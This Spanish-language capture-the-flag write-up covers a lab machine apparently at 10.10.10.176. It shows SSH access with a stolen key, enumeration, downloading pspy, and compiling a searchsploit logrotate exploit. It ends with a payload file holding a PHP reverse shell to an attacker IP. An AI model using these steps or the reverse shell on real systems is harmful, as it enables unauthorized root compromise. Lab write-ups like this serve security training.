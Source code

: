 1. Copiamos el contenido de la id_rsa del pdf en un fichero id_rsa en nuestra maquina.
1. Le ponemos los derechos necesarios

    ```bash
    chmod 600 id_rsa
    ```

1. Nos connectamos

    ```bash
    ssh reader@10.10.10.176 -i id_rsa
    ```

Y ya estamos connectados como el usuario **reader** y podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
ls -l
cd backups
ls -l
cat access.log
cat access.log.1
```

Aqui no tenemos mucha cosa que podemos hacer. Uzamos **pspy** para investigar el systema.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
./pspy64
```

pspy nos muestra que hay un `/usr/sbin/logrote` que se ejecuta a interval regular de tiempo.

```bash
uname -a
logrotate -v
```

En la maquina de atacante buscamos un exploit logrotate para escalada de privilegios

```bash
searchsploit logrot
searchsploit -m 47466
mv 47466.c logrotten.c
```

Copiamos el contenido en un fichero de la maquina victima y le quitamos todos los commentarios.

```bash
gcc logrotten.c -o logrotten
```

Creamos un fichero payloadfile malicioso

```bash
nano payloadfile


#!/bin/bash

php -r '$sock=fsockopen("10.10.17.51",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
